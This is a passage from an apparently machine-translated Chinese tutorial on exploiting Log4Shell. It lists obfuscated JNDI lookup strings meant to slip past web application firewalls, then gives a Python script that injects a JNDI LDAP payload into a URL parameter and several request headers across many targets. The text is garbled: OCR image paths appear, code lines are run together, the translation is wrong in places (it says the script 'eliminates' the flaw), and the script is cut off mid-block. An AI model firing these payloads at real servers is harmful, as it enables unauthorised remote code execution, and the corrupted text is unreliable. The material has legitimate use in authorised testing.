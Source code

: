 ![](img/b0ec567935b27455963a539347b35c35.png)

log4shell

希望你从这两张截图中清楚地了解了如何寻找这个漏洞。你也可以用金丝雀来检测。

# 晶片旁路:

要绕过 Web 应用程序防火墙，您可以使用以下有效负载:

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```

# 怎么自动化？

要自动消除此漏洞，您可以使用以下代码:

```
from sys import argv
from requests import get
from urllib3 import disable_warnings
from concurrent.futures import ThreadPoolExecutordisable_warnings()proxies = {"http": "[http://127.0.0.1:8080](http://127.0.0.1:8080)", "https": "[http://127.0.0.1:8080](http://127.0.0.1:8080)"}def sendDetectionRequest(url, urlId):
    try:
        payload = '${jndi:ldap://' + str(urlId) + '.' + argv[2] + '/a}'
        params = {'id':payload}
        headers = {'User-Agent':payload, 'Referer':payload, 'X-Api-Version':payload, 'X-Forwarded-For':payload} #You_may_add_other_headers_here.
        url = url.strip()
        print('[{}] Testing {}'.format(urlId, url))
        get(url, headers=headers, params=params, verify=False, proxies=proxies, timeout=10)
    except Exception as e:
```